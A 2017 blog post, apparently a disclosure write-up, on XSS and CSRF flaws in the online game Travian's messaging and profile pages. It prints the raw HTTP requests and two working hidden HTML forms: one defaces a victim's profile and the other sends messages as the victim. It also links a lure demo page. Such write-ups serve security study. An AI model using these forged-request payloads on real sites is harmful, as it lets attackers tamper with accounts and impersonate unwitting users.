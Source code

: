 ```yaml
---
layout: post
title:  "Hacking Travian Profiles (CSRF)"
date:   2017-02-11
tags:
- CSRF
- Hacking
- Web
- Security
- Travian
- HTTP
categories: jekyll update
---
```


I detected multiple XSS and CSRF vulnerabilities in [Travian](http://travian.com/){:target="_blank"} (Online game).

- The in-game messaging system of Travian did not escape {}<>'" and, when sending messages to other users, I could embed malicious JS code in messages, Which got executed upon opening
- "Edit profile" was not CSRF-protected
- "Send message" was not CSRF-protected

Here are how HTTP requests looked like:


HTTP request to send message in Travian (summarized):

    POST /messages.php?t=1 HTTP/1.1
    Host: ts1.travian.com
    Cookie: <cookie data>
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37

    an=odysseus&be=subject1&message=body1


HTTP request to edit profile in Travian (summarized):

    POST /spieler.php HTTP/1.1
    Host: ts1.travian.com
    Cookie: ...
    Connection: close
    Content-Type: application/x-www-form-urlencoded

    e=2&uid=19948&did=73537&tag=&monat=0&jahr=&mw=1&ort=hi&be1=test1&be2=test2&dname%5B73537%5D%3D=Ithaca&s1=Save

Surprisingly, none of `did` or `uid` were checked to protect against CSRF. I could easily setup a web page, and send a link to other users that upon opening:

- A message was sent on their behalf to another user
- Their profile info was modified (by me)

Forms to simulate the HTTP requets:

Hack user profile:

```html
    <form id="hackprofile" method="POST" action="http://ts1.travian.com/spieler.php">
        <input type="hidden" name="ort" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be1" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be2" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="e" value="2">
        <input type="hidden" name="mw" value="1">
        <input type="hidden" name="s1" value="Save">
    </form>
```

Send message on behalf of user:

```html
<form id="msg" method="POST" action="http://ts1.travian.com/messages.php?t=1">
    <input type="hidden" name="an" value="odysseus">
    <input type="hidden" name="be" value="Test">
    <input type="hidden" name="message" value="Hi">
</form>
```

screnshots:

![Travian user profile](/images/travian-hack1.png){:width="300"}

![Travian sent messages](/images/travian-hack2.png){:width="300"}


Live demo can be viewed [here](/html/exploits/travian_hack/cute_puppy.html){:target="_blank"} (Works only if you are logged into [t1.travian.com](t1.travian.com)).
